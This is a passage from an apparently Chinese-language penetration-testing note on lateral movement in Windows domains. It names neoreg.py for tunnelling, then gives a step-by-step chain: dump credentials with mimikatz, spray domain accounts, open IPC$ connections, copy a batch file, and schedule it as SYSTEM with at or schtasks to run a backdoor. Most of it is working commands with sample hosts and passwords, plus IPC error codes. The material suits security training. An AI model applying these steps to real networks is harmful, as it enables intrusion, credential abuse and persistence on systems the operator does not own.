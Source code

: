             - 生成服务端脚本

                python neoreg.py generate -h

            - 连接服务端

                python neoreg.py -h


---

**案例1-横向渗透明文传递at&schtasks**

在拿下一台内网主机后，通过本地信息搜集收集用户凭证等信息后，如何横向渗透拿下更多的主机？这里仅介绍at&schtasks命令的使用，在已知目标系统的用户明文密码的基础上，直接可以在远程主机上执行命令。
获取到某域主机权限->minikatz得到密码（明文，hash）->用到信息收集里面域用户的列表当做用户名字典->用到密码明文当做密码字典-》尝试连接->创建计划任务(at|schtasks)->执行文件可为后门或者相关命令
利用流程
1. 建立IPC链接到目标主机
2. 拷贝要执行的命令脚本到目标主机
3. 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本
4. 删除IPC链接

```BASH
net use \\server\ipc$"password" /user:username # 工作组
net use \\server\ipc$"password" /user:domain\username #域内
dir \\xx.xx.xx.xx\C$\                # 查看文件列表
copy \\xx.xx.xx.xx\C$\1.bat 1.bat  # 下载文件
copy 1.bat \\xx.xx.xx.xx\C$  # 复制文件
net use \\xx.xx.xx.xx\C$\1.bat /del  # 删除IPC
net view xx.xx.xx.xx                # 查看对方共享
```
### 建立IPC常见的错误代码




```
（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
（2）51：网络问题，Windows 无法找到网络路径
（3）53：找不到网络路径，可能是IP地址错误、目标未开机、目标Lanmanserver服务未启动、有防火墙等问题
（4）67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
（6）1326：账号密码错误
（7）1792：目标NetLogon服务未启动，连接域控常常会出现此情况
（8）2242：用户密码过期，目标有账号策略，强制定期更改密码
```
**建立IPC失败的原因**
```
（1）目标系统不是NT或以上的操作系统
（2）对方没有打开IPC$共享
（3）对方未开启139、445端口，或者被防火墙屏蔽
（4）输出命令、账号密码有错误
```


**[at] & [schtasks]**
```bash
#at < Windows2012
net use \\192.168.3.21\ipc$ "Admin12345" /user:god.org\ad
ministrator # 建立ipc连接：
copy add.bat \\192.168.3.21\c$  #拷贝执行文件到目标机器
at \\192.168.3.21 15:47 c:\add.bat    #添加计划任务

#schtasks >=Windows2012
net use \\192.168.3.32\ipc$ "admin!@#45" /user:god.org\ad
ministrator # 建立ipc连接：
copy add.bat \\192.168.3.32\c$ #复制文件到其C盘
schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn adduser /sc DAILY /tr c:\add.bat /F #创建adduser任务对应执行文件
```